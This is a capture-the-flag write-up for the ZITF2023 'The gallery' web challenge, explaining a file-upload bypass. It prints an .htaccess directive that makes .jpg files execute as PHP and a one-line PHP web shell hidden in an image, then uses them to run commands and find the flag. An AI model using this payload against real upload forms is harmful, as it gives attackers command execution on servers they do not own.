 ```yaml
---
title: ZITF2023 - The gallery
date: 2023-03-18 +0200
tags: [Web security, File upload]
categories: [Write-ups]
---
```


# Reconnaissance

With this challenge we immediately guess that there's a file upload vulnerability

![i2](../../assets/zitf2023/13.jpg)

After uploading an image, we see it in uploads/

![i2](../../assets/zitf2023/14.jpg)

# Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:

```php
<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>
```

![i2](../../assets/zitf2023/17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](../../assets/zitf2023/18.jpg)
![i2](../../assets/zitf2023/19.jpg)
![i2](../../assets/zitf2023/20.jpg)

Flagged !

[Github repo](https://github.com/yaceno/ZITF2023/tree/main/The%20gallery)